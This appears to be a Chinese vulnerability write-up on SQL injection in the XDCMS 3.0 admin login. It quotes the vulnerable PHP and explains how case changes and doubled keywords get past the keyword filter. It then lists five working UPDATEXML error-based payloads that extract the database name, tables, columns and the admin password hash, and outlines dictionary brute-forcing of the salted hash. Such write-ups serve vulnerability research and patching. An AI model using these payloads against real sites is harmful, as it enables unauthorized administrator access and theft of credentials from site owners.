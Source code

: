 XDCMS 3.0 后台登录窗sql注入漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 3.0

三、复现过程
------------

漏洞链

    system/modules/xdcms/login.php
    public function check(){
            
            $username = safe_html($_POST['username']);
            $password = safe_html($_POST['password']);
            $verifycode = safe_html($_POST['verifycode']);

            if(empty($username)||empty($password)){
                showmsg(C('user_pass_empty'),'-1');
            }
            
            if($verifycode!=$_SESSION['code']){
                showmsg(C('verifycode_error'),'-1');
            }
            
            $sql="select * from ".DB_PRE."admin where `username`='$username'";
            if($this->mysql->num_rows($sql)==0){
                showmsg(C('user_not_exist'),'-1');
            }
            
            $rs=$this->mysql->get_one($sql);
            $password=password($password,$rs['encrypt']);
            if($password!=$rs['password']){
                showmsg(C('password_error'),'-1');
            }
            
            if($rs['is_lock']==1){
                showmsg(C('user_lock'),'-1');
            }
            
            $logins=$rs["logins"]+1;
            $ip=safe_replace(safe_html(getip()));
            $this->mysql->db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");
            
            $_SESSION['admin']=$rs['username'];
            $_SESSION['admin_id']=$rs['id'];
            $_SESSION['groupid']=$rs['groupid'];
            unset($rs);
            showmsg(C("login_success"),"index.php?m=xdcms&c=index");
        }
    safe_html()
    function safe_html($str){
        if(empty($str)){return;}
        $str=preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
    |outfile/','',$str);
        return htmlspecialchars($str);
    }

safe\_html()使用preg\_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

    #爆库
    username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
    //updatexml一次显示32位字符，需要偏转
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
    #爆内容
    username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button=

![](/Users/aresx/Documents/VulWiki/.resource/XDCMS3.0后台登录窗sql注入漏洞/media/rId24.jpg)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

    function password($password, $encrypt='') {
        $pwd = array();
        $pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
        $password_md5=md5(trim($password));
        $nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
        $pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
        return $encrypt ? $pwd['password'] : $pwd;
    }
